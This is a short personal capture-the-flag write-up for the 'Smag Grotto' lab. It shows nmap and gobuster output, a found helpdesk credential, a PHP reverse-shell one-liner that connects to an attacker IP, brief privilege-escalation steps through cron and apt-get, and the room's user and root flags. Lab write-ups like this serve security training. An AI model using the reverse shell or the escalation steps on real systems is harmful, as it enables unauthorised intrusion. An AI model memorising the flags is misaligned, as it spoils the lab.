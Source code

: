 Smag_Grotto.doc
---------------------------

name : Eviyatar Cohen

Date : 3.10.2022

IP = 10.10.103.2
-----------------------------------------

Nmap Results:
================
nmap -sC -sV 10.10.103.2                       
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-03 03:45 EDT
Nmap scan report for 10.10.103.2
Host is up (0.088s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.76 seconds

----------------------------------------------------------------

GoBuster Results:
==================
gobuster dir -u http://10.10.103.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.103.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/03 03:47:18 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 309] [--> http://10.10.103.2/mail/]
/server-status        (Status: 403) [Size: 276]                               
Progress: 94134 / 207644 (45.33%)                                            ^C
[!] Keyboard interrupt detected, terminating.
                                                                              
===============================================================
2022/10/03 04:02:02 Finished
===============================================================


Credentials Found:
======================
helpdesk:cH4nG3M3_n0w

PHP rev-shell syntax :
==========================
php -r '$sock=fsockopen("10.18.26.95",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

After i got a shell i used my own id_rsa/pub key to rewrite the file in the cron tab to access jake user

after it i used atp-get GTFOBin to get root shell!!

Flags!!
==========

User Flag : iusGorV7EbmxM5AuIe2w499msaSuqU3j

Root Flag : uJr6zRgetaniyHVRqqL58uRasybBKz2T

